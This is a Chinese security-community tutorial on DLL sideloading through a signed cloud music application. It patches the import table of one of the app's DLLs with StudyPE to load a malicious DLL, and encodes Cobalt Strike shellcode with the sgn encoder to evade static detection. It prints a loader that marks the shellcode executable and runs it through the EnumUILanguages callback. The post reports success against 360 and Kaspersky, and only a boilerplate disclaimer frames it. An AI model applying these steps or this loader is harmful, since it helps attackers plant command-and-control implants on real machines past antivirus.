








# 通过某云音乐实现白加黑上线-先知社区

> **来源**: https://xz.aliyun.com/news/16171  
> **文章ID**: 16171

---

通过某云音乐白加黑实现上线

* **文章声明**  
  本文章中所有内容仅供学习交流，严禁用于商业用途和非法用途，否则由此产生的一切后果均与文章作者无关

用到的工具

* 1.Process Monitor
* 2.StudyPE
* 3.sgn

**一.通过Process Monitor找到我们需要的DLL**  
简单介绍一下Process Monitor是微软提供的一款系统进程监视软件

一打开Process Monitor是有很多进程的我们需要通过名字筛选一下



然后看一下有那些是某音乐目录里的dll,这里找到一个进去看一下



这里发现swresample-3感觉可以尝试



**二.通过StudyPE工具把自己的黑dll导入**  
StudyPE是一款PE32amp;PE64查看/剖析集成化工具，出示了丰富多彩的PE编辑功能

把我们找到的dll文件拖入StudyPE,查看导入表



然后把我们准备的黑dll通过添加导入函数导入进去(提前把dll文件给备个份,以防损坏)



可以看到我们的黑dll函数已经被添加进去了



然后保存,把我们的黑dll也拖入目录启动程序,在核晶状态下成功上线





卡巴斯基免费版也是成功上线


**三.黑DLL的编写**  
这里介绍一下sgn SGN是一个用于进攻性安全目的的多态二进制编码器，其核心是生成静态不可检测的二进制payloads  
<https://github.com/EgeBalci/sgn>  
cs生成的bin文件我们用sgn编码一下可以很大程度帮助我们过静态,这里的loader主要用到回调函数的方法执行

```
// 获取解密后的shellcode的地址
 char* shllcode = (char*)buf;

 // 声明一个DWORD变量用于存储旧的内存保护属性
 DWORD dwOldPro = 0;

 // 更改解密后的shellcode所在内存区域的保护属性，允许执行、读、写
 BOOL ifExec = VirtualProtect(shllcode, sizeof(buf), PAGE_EXECUTE_READWRITE, &dwOldPro);

 // 使用EnumUILanguages函数执行解密后的shellcode
 EnumUILanguages((UILANGUAGE_ENUMPROC)shllcode, 0, 0);

```
